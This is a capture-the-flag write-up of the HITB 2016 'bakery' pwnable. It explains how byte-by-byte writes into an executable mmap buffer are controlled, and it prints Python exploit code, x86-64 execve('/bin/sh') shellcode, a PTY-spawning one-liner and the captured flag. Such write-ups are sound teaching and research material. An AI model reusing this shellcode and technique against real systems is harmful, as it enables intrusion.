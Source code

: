 date: 2016-04-01 00:00:00
modified: 2016-04-01 00:00:00
title: HITB 2016 - Bakery write-up
author: hugsy
tags: pwn,hitb
category: ctf

I participated to [HITB Teaser CTF](https://ctftime.org/event/325/) only to have a bit of
fun with there pwnable challenge(s) which I find usually fun and
instructive. The teaser only offered one pwnable challenge, named `bakery`.


### Info ###


```bash
gef➤  !file ./bakery.910abf341053d25831ecb465b7ddf738
./bakery.910abf341053d25831ecb465b7ddf738: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=74fa32ca74594550d59ff5fb64b8dd523965cdfc, stripped
gef➤  checksec ./bakery.910abf341053d25831ecb465b7ddf738
[+] checksec for './bakery.910abf341053d25831ecb465b7ddf738'
Canary:                                           Yes
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    Yes
Full RelRO:                                       No
```

It is a baking program, that allows to build your own recipe.


### Vulnerability ###

After printing the available ingredients, the `main` function does this (at
0x0400CBC)
![image_alt](https://i.imgur.com/yrFucNx.png)

Which translates to the pseudo-code:
```c
buf = mmap(NULL, 0x1000, RWX, flags, ...);
memset(buf, '\xc3', 0x1000);
srand( time(NULL) );
randint = rand() * 0x1337;
printf("0v3n w4rm3d up to %d d3greez! (d4mn h0t!)\n", randint);
```

Then it enters a loop to add the ingredients:
```c
printf("Add ingredient");
fgets(ingredient, 127, stdin);
ingredient[ strlen(ingredient)-1 ] = '\x00';
strncmp(ingredient, "BAKE", 4);
```

If we enter `BAKE`, it will simply jump to the buffer allocated by `mmap` from
above:
```asm
.text:0000000000400EB8                 mov     rax, [rbp+mmap_buf]
.text:0000000000400EBF                 mov     [rbp+var_108], rax
.text:0000000000400EC6                 mov     rdx, [rbp+mmap_buf]
.text:0000000000400ECD                 mov     rax, [rbp+var_108]
.text:0000000000400ED4                 mov     rdi, rdx
.text:0000000000400ED7                 call    rax
```

Otherwise, it will check using `strstr()` if our ingredient we entered is in the
list of valid ingredients. If the sub-string was found, it calls a function at
0x400B15 with 2 arguments, the string we provided as input for ingredient, and
the random integer generated initially.

The function at 0x400B15 is fairly simply and could be translate to pseudo-code
like this:
```c
int func_400B15(char* input, int init)
{
  int accu;
  int i;
  accu = init;
  for( i=0; i<strlen(input); i++ ) accu += input[i];
  return accu;
}
```

The result is then `and`-ed to 0xff and written at current location in the mmap
allocated buffer
```asm
.text:0000000000400E77                 mov     rax, [rbp+p_mmap_buf]
.text:0000000000400E7E                 movzx   edx, [rbp+result]
.text:0000000000400E85                 mov     [rax], dl
.text:0000000000400E87                 add     [rbp+p_mmap_buf], 1
```
The pointer to the `mmap` buffer is incremented.


So what this program is doing, is using the "accumulator" function to write
inside the `mmap` buffer, which will then be jumped into and executed.


### Exploitation ###

Getting the initial random integer can be done by reading from the socket until
reahcing the string `0v3n w4rm3d up to` and divide this value by 0x1337.
```python
    # get the init rand()
    parts = s.read_until("\n").split()
    temp = int(parts[5])
    ok("Got temp=%d" % temp)
    rand = temp / 0x1337
    ok("Got rand=%d" % rand)
```

To reliably control the content of the mmaped buffer, we need to "compensate"
the accumulation that the function is doing. Since we know the initial random
integer, my approach was to use one of the valid ingredients (in this case
`FLOUR`) which is required to pass the `strstr()` check, sum up the ascii values
of the letters of the word, and add the random init.
```python
def write_char_in_memory(sock, char, init):
    sock.read_until("add ingredient> ")
    [...]
    base = init + sum( [ord(x) for x in 'FLOUR'] )
```

If the value does not finish by a NULL, I calculate what is the closest upper
bound to be aligned with 0, and substract the result with my value:
```python
def find_closest_upper_bound(x):
    a = x >> 8
    a+= 1
    return a << 8

[...]
    top = base
    if base & 0xff != 0x00:
        top = find_closest_upper_bound(base)
    diff = top-base
```

This gives me in the `diff` variable what needs to be added to the stub `randint
+ 'F' + 'L' + 'O' + 'U' + 'R'`. We can then padding this stub by appending to
this stuff `diff` times `\x01`. This way we fully control the last byte, so we
can append the character we actually want written in memory.


Now that we can write reliably one character at a time, we can copy our
shellcode:
```python
        sc = "\x48\x31\xd2"                                  # xor rdx, rdx
        sc+= "\x48\x31\xc0"                                  # xor rax, rax
        sc+= "\x48\x31\xf6"                                  # xor rsi, rsi
        sc+= "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"      # mov rbx, 0x68732f6e69622f2f
        sc+= "\x48\xc1\xeb\x08"                              # shr rbx, 0x8
        sc+= "\x53"                                          # push rbx
        sc+= "\x48\x89\xe7"                                  # mov rdi, rsp
        sc+= "\xc6\xc0\x3b"                                  # mov al, 59
        sc+= "\x0f\x05"                                      # syscall

        for c in sc:
            write_char_in_memory(s, c, rand & 0xff)
```

And to execute it, the only thing left is to start baking!
```python
        s.read_until("add ingredient> ")
        s.write("BAKE" + '\n' )
```

Let's go:
```bash
$  py gef-exploit.py
[+] Connected to 52.17.31.229:31337
Attach with GDB and hit Enter
[+] Got banner
[+] Got temp=654227
[+] Got rand=133
[*] Writing char=H rand=133
[*] Using top=768, base=525
[*] Sending ''FLOURAAA\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01H''
[*] Writing char=1 rand=133
[*] Using top=768, base=525
[...]
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
python -c "import pty;pty.spawn('/bin/bash')"
bakery@ip-172-31-31-97:/$ cd home/bakery
cd home/bakery
bakery@ip-172-31-31-97:/home/bakery$ ls
ls
YOU_WANT_THIS_ONE  bakery
bakery@ip-172-31-31-97:/home/bakery$ cat YOU_WANT_THIS_ONE
cat YOU_WANT_THIS_ONE
You win! The flag is HITB{24d467d954cc08efbfa6acd8341e55d7}
bakery@ip-172-31-31-97:/home/bakery$
```

Fun challenge, thanks to the whole HITB crew for their continuous creativity. And as usual, the full exploit can be found [here](https://gist.github.com/hugsy/06ff00997c9d07099f27).
